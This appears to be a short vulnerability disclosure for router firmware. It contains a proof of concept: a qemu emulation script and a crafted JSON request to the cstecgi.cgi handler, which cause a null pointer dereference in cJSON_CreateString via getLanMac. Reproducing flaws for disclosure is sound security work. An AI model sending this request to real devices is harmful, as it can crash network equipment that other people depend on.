


## poc

### getLanMac.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_410F78.cgi  < getLanMac.json
```

### getLanMac.json
```json
{
    "topicurl" : "UploadCustomModule/getSysStatusCfg",
}
```

## Reproduce
```bash
./getLanMac.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```
When `getIfMac` return -1, `getLanMac` will return a null pointer.


Tracing execution path from this point, we can trace that the null pointer is passed into `cJSON_CreateString` function.




In the `cJSON_CreateString`, this null pointer will be dereferenced.


